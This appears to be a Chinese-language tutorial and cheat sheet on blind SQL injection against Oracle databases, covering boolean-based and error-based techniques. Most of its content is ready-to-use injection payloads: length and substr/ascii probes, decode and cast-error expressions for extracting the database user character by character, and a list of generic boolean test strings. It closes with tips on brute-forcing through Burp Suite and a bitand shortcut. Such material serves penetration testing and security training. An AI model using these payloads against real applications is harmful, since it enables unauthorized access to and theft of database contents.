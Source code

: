 ## oracle盲注

在注入点由于无法回显、或者SQL语句难以闭合导致无法使用union select或者注释，或者报错时并不显示出详细的报错信息时，基本就需要盲注了。

### oracle布尔盲注

例如在一个查询处，我们可以通过name=xxX得到一条正确的数据，这时候就可以使用布尔型的盲注（以获取user表的长度为例）：

```txt
xxX' and (select length(user) from dual)=N or '1'='1     //N为我们猜测的长度，即直接使用and一个与注入有关的表达式，来做布尔型的判断。
```

或者我们可以使用基于值的方式:

```txt
xx'||decode((SELECT length(user) from dual),N,'X','1') or '1'='1    //decode即相当于ORACLE中的if语句，如果长度为N就返回最后一位X，即让查询成功。
```

获取user表的内容：

```txt
xxX' and (ascii(substr((select user from dual),1,1)))=猜测的ascii码 or '1'='1
```

常用payload：

```txt
1) AND 4130=5598 AND (8042=8042
1) AND 6785=6785 AND (6807=6807
1 AND 9314=2888
1 AND 6785=6785
1 AND 9975=9573-- IGvt
1 AND 6785=6785-- QaMs
1') AND 3166=2235 AND ('EpuN'='EpuN
1') AND 6785=6785 AND ('lahe'='lahe
1' AND 6548=8240 AND 'QLjp'='QLjp
1' AND 6785=6785 AND 'OijB'='OijB
```

### oracle报错盲注

```txt
比如最近遇到一个注入点，尽管会报错但是并不爆出具体信息，无法报错注入；SQL语句未知且注释不可用导致union select无法闭合；查询本身是没有返回数据的，所以也不能使用布尔型blind；在这个情况下，我们使用error-based-blind(在没查询数据但能报错的时候，通过是否报错来判断表达式是否正确)：

这里同样用到了decode()，以及能够使数据库报错的case()函数：
(select cast(需要转换的值 as 新的数据类型) from dual)    //我们在试图把一个形如'yy'的字符串转换为int型的时候，ORACLE数据库会报错

注意:函数参数整体都要用括号包裹起来，否则会提示缺少右括号，原理就是把‘yy’这样的字符串cast成int的时候会报Invalid Value的错误
从而我们最终的注入语句为:
123' or 1=(select cast((decode((SELECT length(user) from dual),N,'1','yy')) as int) from dual) or '1'='1
从而可以得到user的长度。

获取每一位的数据：
123' or 1=(select cast((decode((ascii(substr((select user from dual),1,1))),1,'1','yy')) as int) from dual) or '1'='1

使用burpsuit来把大写字母的ASCII遍历一遍，最终得到user的名称。
另外，除了把字母遍历一遍之外，还可以使用bitand(),把每个字母的ASCII分别与1，2，4，...128进行按位与运算，从而只需要发8次数据，就能得到它的二进制表示的ascii码。
```
